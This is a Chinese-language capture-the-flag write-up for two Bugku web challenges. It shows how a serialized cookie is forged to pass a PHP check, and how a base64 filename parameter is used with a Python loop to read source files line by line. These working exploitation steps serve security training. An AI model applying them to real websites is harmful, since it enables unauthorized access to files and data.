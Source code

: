 # web

### 点login咋没反应

1. 登录页面访问，点击却没有反应，查看源代码，`POST`表单没有提交到后台，但是加载了`admin.css`

   ![](img/image-20210613163956707.png)

2. 这里访问一下`admin.css`，有`GET`提示

   ![](img/image-20210613164158837.png)

3. 这里根据提示进行访问，代码审计

   ```php
    <?php
   error_reporting(0);
   $KEY='ctf.bugku.com';
   include_once("flag.php");
   $cookie = $_COOKIE['BUGKU'];
   if(isset($_GET['21017'])){
       show_source(__FILE__);
   }
   //当接收到的cookie反序列化后的值等于$key则输出flag
   elseif (unserialize($cookie) === "$KEY")
   {   
       echo "$flag";
   }
   else {
   ?>
   <html>
   <head>
   <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
   <title>Login</title>
   <link rel="stylesheet" href="admin.css" type="text/css">
   </head>
   <body>
   <br>
   <div class="container" align="center">
     <form method="POST" action="#">
       <p><input name="user" type="text" placeholder="Username"></p>
       <p><input name="password" type="password" placeholder="Password"></p>
       <p><input value="Login" type="button"/></p>
     </form>
   </div>
   </body>
   </html>
   
   <?php
   }
   ?> 
   ```

4. 这里要反序列化构造`cookie`进行提交

   ```php
   #构造序列化cookie值
   <?php
   $cookie='ctf.bugku.com';
   echo(serialize($cookie));
   ?>
   
   #输出
   s:13:"ctf.bugku.com";
   ```

5. 我这里利用`postman`添加cookie头部和值提交

   ![](img/image-20210613170346915.png)

   
### cookies

   1. 这里访问靶机网页，发现一串未知字符，但是网页url应该是文件包含漏洞，base64解码后是`keys.txt`
   
      ![](img/image-20210619173425130.png)
   
   2. 这里试试能不能直接把`index.php`读取出来，先base64编码下`aW5kZXgucGhw`
   
      ![](img/image-20210619173651323.png)
   
   3. 这里前面有个`line`，应该是一行一行读的，写个`py`脚本，调用`requests`库，直接读吧
   
      ```python
      import requests
      for i in range(0,20):
          url="http://xxxxxxxxxx/index.php?line=%d&filename=aW5kZXgucGhw" % i
          response=requests.get(url=url).text
          # print(url+'<br>')
          # print(response)
          with open("index.php", "a+") as f:
              f.write(response)
      ```
   
   4. 这里打开提取出来`index.php`，代码审计下
   
      ```php
      <?php
      error_reporting(0);
      //判断接收到的文件名是否有值，有值就进行base64解码，没有值就赋值为空
      $file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
      //判断接收的行数，有值转换为整数，没值赋值为空
      $line=isset($_GET['line'])?intval($_GET['line']):0;
      //如果file变量为空，发送原始的 HTTP 报头
      if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
      
      //文件数组
      $file_list = array(
      '0' =>'keys.txt',
      '1' =>'index.php',
      );
       
      //检查是否接收有cookie值并且cookie值为margin
      if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
        //有的话，文件数组添加一个keys.php
      $file_list[2]='keys.php';
      }
       
      //如果文件变量在文件数组的话
      if(in_array($file, $file_list)){
        
        //将文件输出出来
      $fa = file($file);
      echo $fa[$line];
      }
      ?>
      ```
   
   5. 这里需要将`keys.php`进行base64编码，然后添加`cookie`值为`margin`，利用工具进行发送，拿到flag
   
      ![](img/image-20210619174711308.png)
   
      ![](img/image-20210619174740249.png)

